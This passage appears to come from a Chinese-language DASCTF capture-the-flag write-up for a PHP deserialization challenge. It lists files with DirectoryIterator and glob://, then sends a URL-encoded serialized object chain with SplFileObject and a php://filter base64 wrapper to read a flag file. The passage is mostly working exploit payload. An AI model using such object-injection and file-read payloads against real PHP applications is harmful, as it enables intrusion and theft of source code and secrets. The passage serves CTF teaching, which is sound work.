?DAS=DirectoryIterator&CTF=glob://flag*
```

得到文件名之后就读取文件，利用SplFileObject类结合伪协议读取`flaggggggggggg.php`文件

```
?DASCTF=O%3A2%3A%22A1%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A3%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BO%3A2%3A%22A4%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A6%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A8%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D&DAS=SplFileObject&CTF=php://filter/convert.base64-encode/resource=flaggggggggggg.php

```

最终再将浏览器的回显进行base64解码即可得到flag
